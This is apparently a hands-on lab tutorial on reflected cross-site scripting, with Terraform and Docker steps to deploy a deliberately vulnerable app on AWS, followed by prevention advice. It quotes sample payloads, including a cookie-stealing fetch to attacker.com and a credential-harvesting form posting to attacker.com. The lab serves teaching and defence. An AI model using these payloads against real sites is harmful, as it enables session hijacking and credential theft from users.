# **Reflected XSS in AWS**

Cross-Site Scripting (XSS) is a critical security vulnerability in web applications that allows attackers to inject and execute malicious scripts in a user’s browser. These scripts can compromise sensitive data, hijack user sessions, deface websites, or perform unauthorized actions. We will also perform a Reflected XSS attack on an application hosted in `AWS` to understand how it works.

## **Objective**

- Creating the infrastructure in `AWS` using `Terraform`.
- Running the vulnerable `Application` in `Docker`.
- Performing a `Reflected XSS` attack on the `Application`.
- Understanding how malicious scripts can be injected and stored on a server.
- Identifying ways to detect and mitigate stored XSS vulnerabilities.
- Demonstrating security best practices to prevent XSS attacks in production systems.

## **What is Cross-Site Scripting (XSS)?**

XSS is a **web security vulnerability** where attackers inject **malicious scripts** into web pages. These scripts can manipulate the DOM, steal sensitive data, and impersonate users. XSS attacks usually exploit vulnerabilities in input handling and output rendering in web applications.


## **How Does XSS Work?**

### **1. Injection**  
The attacker injects **malicious input** into a vulnerable part of the web application, such as a form, URL parameter, or comment section. This input is designed to be processed as executable code rather than plain text.

- Example injection in a form field:  
  ```html
  <script>alert('XSS Attack');</script>
  ```

### **2. Execution**  
The browser executes the injected script when the user accesses the page containing the malicious input. Depending on the type of XSS (Stored, Reflected, or DOM-Based), this could happen automatically (Stored XSS) or require a user to click a malicious link (Reflected XSS).

- Example vulnerable output:  
  ```html
  <p>Search results for: <script>alert('XSS Attack');</script></p>
  ```
  
The browser renders and runs the script, displaying an alert box in this example.

### **3. Attack**  
Once executed, the script can perform harmful actions such as:
- **Stealing cookies**:  
  ```javascript
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
  ```

  `document.cookie` is used to get the cookies of the user which is stored in the browser.

- **Manipulating the page (DOM)**:  
  ```javascript
  document.body.innerHTML = '<h1>This site has been hacked!</h1>';
  ```
  `innerHTML` is used to get the innerHTML of the body of the page. When the page is loaded, the script is executed and the innerHTML of the body is changed to `<h1>This site has been hacked!</h1>`.

- **Tricking users with phishing forms**:
  ```html
  <form action="https://attacker.com/login" method="POST">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <button type="submit">Log In</button>
  </form>
  ```

  The form is submitted to the attacker's server and the username and password are stolen. User is not aware that their credentials are being stolen as the form is submitted to the attacker's server and the user is redirected to the attacker's website.

## **Types of XSS Attacks**


### **1. Stored XSS (Persistent XSS)**  
In **Stored XSS**, the malicious input is saved on the server, such as in a database. It gets embedded in a web page and automatically executed whenever a user accesses that page. For example, an attacker could post a comment containing a script, which runs whenever someone views the comment.

### **2. Reflected XSS (Non-Persistent XSS)**  
In **Reflected XSS**, the injected script is not stored on the server. Instead, it is included in the server's response based on user input. The attack usually requires the victim to click a malicious link that contains the script in a query parameter or form submission.

### **3. DOM-Based XSS**  
In **DOM-Based XSS**, the vulnerability is present in client-side JavaScript code. The application reads untrusted input (e.g., from the URL) and dynamically manipulates the page's content, leading to script execution without any server involvement.


## **Reflected XSS**

Reflected XSS, also known as **non-persistent XSS**, occurs when the web application immediately reflects user input in the server’s response without properly validating or escaping it. Since the input is not stored, the attack typically relies on **social engineering** to trick the user into visiting a specially crafted malicious link.

### **How Reflected XSS Works**


1. **Attacker Crafts Malicious URL**  
   The hacker creates a URL containing a malicious script and tricks the user into clicking it.

2. **User Clicks the Malicious URL**  
   The victim unknowingly interacts with the link, sending a request to the vulnerable website.

3. **Website Reflects the Malicious Script**  
   The website processes the request and includes the malicious script in its response without proper sanitization.

4. **User’s Browser Executes the Script**  
   The victim's browser runs the injected script, which can steal sensitive information or compromise the user's session.

### **Impact of Reflected XSS**

- **Stealing Sensitive Data:** Attackers can steal cookies, session tokens, and other sensitive information.
- **Session Hijacking:** By stealing session data, attackers can impersonate users and gain unauthorized access to their accounts.
- **Phishing:** Attackers can trick victims into entering credentials by displaying fake login forms.
- **Page Defacement:** The attacker can alter the appearance and content of the web page.

## **Hands-on with Reflected XSS in AWS**
Now we will run a vulnerable `Application` in `AWS` and perform a `Reflected XSS` attack on it.

To Deploy the `Application` in `AWS` first we need to create the infrastructure. Including `AWS` `VPC`,`Subnet`,`Route Table`,`Internet Gateway`,`Key Pair`,`EC2 Instance`. Creating this infrastructure is lengthy process. So we will use `Terraform` to create the infrastructure.

**Terraform** is an open-source infrastructure as code tool that allows you to define and provision your cloud infrastructure in a declarative manner. It provides a high-level configuration language to describe your infrastructure in a way that is easy to understand and maintain.

## **Create the Infrastructure with `Terraform`**


### **Step 1: Configure aws credentials**

To get `AWS` Credententals open the lab landing page in right bottom corner in `Poridhi`, Click on Generate Credentails for `AWS`.


It will provide necessary credentials to access `AWS` services.

Copy the `Access Key ID` and `Secret Access Key`.

To Configure the `AWS` try the following command:

```bash
aws configure
```


Use the `Access Key ID` and `Secret Access Key` that was copied to configure the `AWS` credentials. For `region` type `ap-southeast-1` and format as `json`.

### **Step 2: Creating Key Pair**

```bash
mkdir aws-infra
cd aws-infra
```
Inside the project folder apply the following command to create the key file

```bash
aws ec2 create-key-pair --key-name my-key --query "KeyMaterial" --output text > my-key.pem
```

After running the command, a key file will be created in the project folder named `my-key.pem`.

Make the key file read only

```bash
chmod 400 my-key.pem
```

### **Step 3: Creating the `main.tf` file**

Create the `main.tf` file in the project folder with the following content:

```bash
provider "aws" {
  region = "ap-southeast-1"
}

# Create VPC
resource "aws_vpc" "my_vpc" {
  cidr_block           = "10.0.0.0/16"
  enable_dns_support   = true
  enable_dns_hostnames = true

  tags = {
    Name = "my-vpc"
  }
}

# Create Public Subnet
resource "aws_subnet" "public_subnet" {
  vpc_id                  = aws_vpc.my_vpc.id
  cidr_block              = "10.0.101.0/24"
  availability_zone       = "ap-southeast-1a"
  map_public_ip_on_launch = true  # Assign public IP automatically

  tags = {
    Name = "public-subnet"
  }
}

# Create Internet Gateway
resource "aws_internet_gateway" "igw" {
  vpc_id = aws_vpc.my_vpc.id

  tags = {
    Name = "my-internet-gateway"
  }
}

# Create Route Table for Public Subnet
resource "aws_route_table" "public_rt" {
  vpc_id = aws_vpc.my_vpc.id

  # Allow all traffic to the internet
  route {
    cidr_block = "0.0.0.0/0"
    gateway_id = aws_internet_gateway.igw.id
  }

  tags = {
    Name = "public-route-table"
  }
}

# Associate Route Table with Public Subnet
resource "aws_route_table_association" "public_association" {
  subnet_id      = aws_subnet.public_subnet.id
  route_table_id = aws_route_table.public_rt.id
}

# Create Security Group for EC2 Instance
resource "aws_security_group" "ec2_sg" {
  vpc_id = aws_vpc.my_vpc.id

  # Allow SSH (Port 22) from anywhere
  ingress {
    from_port   = 22
    to_port     = 22
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  # Allow HTTP (Port 80) from anywhere
  ingress {
    from_port   = 80
    to_port     = 80
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  # Allow HTTPS (Port 443) from anywhere
  ingress {
    from_port   = 443
    to_port     = 443
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  # Allow Application Traffic (Port 8000)
  ingress {
    from_port   = 8000
    to_port     = 8000
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]  # Open to all (Modify for specific IPs)
  }

  # Allow all outbound traffic
  egress {
    from_port   = 0
    to_port     = 0
    protocol    = "-1"
    cidr_blocks = ["0.0.0.0/0"]
  }

  tags = {
    Name = "ec2-security-group"
  }
}

# Create EC2 Instance in Public Subnet
resource "aws_instance" "my_instance" {
  ami                    = "ami-0672fd5b9210aa093"
  instance_type          = "t2.micro"
  subnet_id              = aws_subnet.public_subnet.id
  vpc_security_group_ids = [aws_security_group.ec2_sg.id]
  
  associate_public_ip_address = true  # Assign Public IP
  key_name                    = "my-key"  # Use the key pair

  tags = {
    Name = "my-public-ec2"
  }
}

# Output the Public IP of the EC2 instance
output "ec2_public_ip" {
  description = "The public IP of the EC2 instance"
  value       = aws_instance.my_instance.public_ip
}
```

This state file will create the infrastructure and output the public IP of the EC2 instance. Here we have created a `VPC`, `Subnet`, `Internet Gateway`, `Route Table`, `Security Group` and `EC2 Instance`.

### **Step 4: Apply the Terraform State File**

```bash
terraform init
```

This command will initialize the terraform project.

```bash
terraform apply
```

This command will apply the state file and create the infrastructure. While applying the state file, it will ask for `yes` to apply the changes.

After the state file is applied, it will output the public IP of the EC2 instance.

### **Step 5: SSH into the EC2 Instance**

Get the public IP of the EC2 instance from the output of the `terraform output` command.

```bash
terraform output
```


copy the `Public IP` of the `ec2 instance`.

now using the public ip `ssh` into the `ec2-instance`

```bash
ssh -i my-key.pem ubuntu@<public-ip>
```
If you ssh for first time, it will ask for `yes` to continue.

Now you are successfully ssh into the `ec2-instance`.



### **Step 6: Install Docker on the EC2 Instance**

Inside the `ec2-instance` create a `install.sh` script for installing `docker`

```bash
nano install.sh
```
Now paste the following script

```bash
#!/bin/bash
sudo apt update -y && sudo apt upgrade -y
# Install dependencies
sudo apt install -y apt-transport-https ca-certificates curl software-properties-common
# Add Docker’s GPG key and repository
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
echo "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
# Update package list and install Docker
sudo apt update -y && sudo apt install -y docker-ce
sudo systemctl start docker && sudo systemctl enable docker
sudo usermod -aG docker $USER
newgrp docker
```

To save the script and exit the nano editor, press `Ctrl + O` ,`Enter` and `Ctrl + X`.

Now make the script executable

```bash
chmod +x install.sh
```

Now run the script

```bash
./install.sh
```

Now you have successfully installed `docker` on the `ec2-instance`.

You can verify the docker installation by running the following command

```bash
docker --version
```


## **Run the Application in Docker**

### **Step 1: Pull the Application from Docker Hub**

```bash
docker pull fazlulkarim105925/reflected-xss
```

### **Step 2: Run the Docker Container**

```bash
docker run -d -p 8000:8000 fazlulkarim105925/reflected-xss
```

### **Step 3: Check the Container Status**

By using the following command you can check the status of the container

```bash
docker ps
```


### **Step 4: Access the Application**

Now you can access the application by going to the `http://<public-ip>:8000` in the browser.




This web app designed to demonstrate Reflected XSS attacks. It allows users to input data, which is reflected without sanitization, making it vulnerable to malicious script execution. The app includes an attack simulation, hacker dashboard for captured data, and an XSS explanation page.

In `Home` page, if we enter any value in the `name` field, it will be reflected in the `results` field and greet the user with the value entered in the `field`.



Now, if we enter the following value in the `name` field:

```html
<script>alert('XSS');</script>
```

The value will be reflected in the `results` field and the script will be executed and an `alert` will pop up


Now if open the `inspect` tool ( By pressing `Ctrl + Shift + I` in the browser) and check the `elements` tab, we can see that the value entered in the `name` field is reflected in the `results` field and the script is executed.



In the Application, you will find a `Button` named `Special Greeting`.



If we click on the the Button, it will redirect you to `/whatWasHappen` page with a modal indicating that the information is being `hacked`. 



It basically send the browser to `/whatWasHappen` route within the application.



Now as your information is being `hacked`, you can see the `hacked` information by clicking on `View Stolen Data` Button.



You have successfully performed a Reflected XSS attack on the application.

## **How to Prevent Reflected XSS**

### **Input Validation**  
   Validate user input to allow only safe and expected formats. Reject input with special characters or HTML tags.

   **Example (Python):**
   ```python
   import re

   def is_valid_input(user_input):
       # Allow only letters, numbers, and spaces
       return bool(re.match("^[a-zA-Z0-9 ]+$", user_input))
   ```

   **Example Usage:**  
   ```python
   user_input = "<script>alert('XSS');</script>"
   if not is_valid_input(user_input):
       print("Invalid input!")
   ```

### **Output Escaping**  
   Escape special characters like `<`, `>`, and `&` to prevent browsers from executing scripts.

   **Example (Python with Flask):**
   ```python
   from flask import Flask, request
   from markupsafe import escape

   app = Flask(__name__)

   @app.route('/search')
   def search():
       user_input = request.args.get('q', '')
       safe_output = escape(user_input)  # Escape special characters
       return f"<p>Search results for: {safe_output}</p>"
   ```

   **Result:**  
   If the input is `<script>alert('XSS');</script>`, it will be displayed as plain text (`&lt;script&gt;alert('XSS');&lt;/script&gt;`) instead of executing the script.

### **Use Content Security Policy (CSP)**  
   Implement a CSP to block unauthorized scripts. Example header:  
   ```http
   Content-Security-Policy: default-src 'self'; script-src 'self';
   ```
## **Conclusion**

In this lab, we have learned about the basics of XSS and how it works. We have also learned about different types of XSS attacks and how to perform a Reflected XSS attack on an application. We also learned about how to prevent Reflected XSS attacks. In our upcoming labs, we wll explore Stored XSS.
